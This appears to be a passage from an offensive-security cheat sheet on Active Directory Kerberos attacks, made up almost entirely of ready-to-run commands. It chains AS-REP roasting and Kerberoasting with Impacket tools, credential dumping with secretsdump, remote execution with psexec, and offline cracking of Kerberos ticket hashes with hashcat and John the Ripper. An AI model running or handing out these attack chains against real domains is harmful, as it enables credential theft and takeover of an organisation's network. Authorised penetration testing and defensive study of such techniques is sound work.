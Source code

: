 ### Privilege Escalation Chain
```bash
# Step 1: Gain low-privileged access
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request

# Step 2: Crack hash and get valid credentials  
hashcat -m 18200 asrep.hash wordlist.txt

# Step 3: Use credentials for Kerberoasting
python3 GetUserSPNs.py domain.com/cracked_user:password -dc-ip 192.168.1.10 -request

# Step 4: Crack service account password
hashcat -m 13100 service_tickets.txt wordlist.txt

# Step 5: Use service account for further attacks
python3 secretsdump.py domain.com/service_account:password@dc.domain.com
```

### Post-Exploitation Enhancement
```bash
# Step 1: Access compromised system
python3 psexec.py domain.com/user:password@target.domain.com

# Step 2: Extract cached credentials
python3 secretsdump.py domain.com/user:password@target.domain.com

# Step 3: Use extracted credentials for Kerberoasting
python3 GetUserSPNs.py domain.com/extracted_user:password -dc-ip 192.168.1.10 -request
```

## Hash Cracking

### Hashcat Usage
```bash
# Crack Kerberos 5 TGS-REP hashes (RC4-HMAC)
hashcat -m 13100 spn_hashes.txt wordlist.txt

# Crack AES-encrypted tickets
hashcat -m 19600 aes_hashes.txt wordlist.txt  # AES128
hashcat -m 19700 aes_hashes.txt wordlist.txt  # AES256

# Use rules for better success rate
hashcat -m 13100 spn_hashes.txt wordlist.txt -r rules/best64.rule

# Brute force attack
hashcat -m 13100 spn_hashes.txt -a 3 ?u?l?l?l?l?l?d?d
```

### John the Ripper Usage
```bash
# Crack with John the Ripper
john --wordlist=wordlist.txt spn_hashes.txt

# Show cracked passwords
john --show spn_hashes.txt

# Use specific format
john --format=krb5tgs spn_hashes.txt --wordlist=wordlist.txt
```
